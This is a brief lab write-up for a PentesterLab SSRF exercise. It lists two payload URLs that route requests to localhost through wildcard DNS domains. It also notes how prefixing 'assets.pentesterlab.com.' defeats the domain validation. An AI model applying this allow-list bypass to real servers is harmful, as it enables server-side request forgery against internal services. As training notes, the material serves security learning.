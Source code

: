#### 5.1. SSRF 4 (Pentesterlab)

```
http://ptl-f5443d61-d11f71ec.libcurl.so/?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234
http://ptl-f5443d61-d11f71ec.libcurl.so/?url=http://assets.pentesterlab.com.localtest.me:1234
```

Note:
   - main domain `hackingwithpentesterlab.link`
   - `*.hackingwithpentesterlab.link` always returns `127.0.0.1`
   - `assets.pentesterlab.com.<DOMAIN>` will bypass the domain validation
   - `http://readme.localtest.me/`
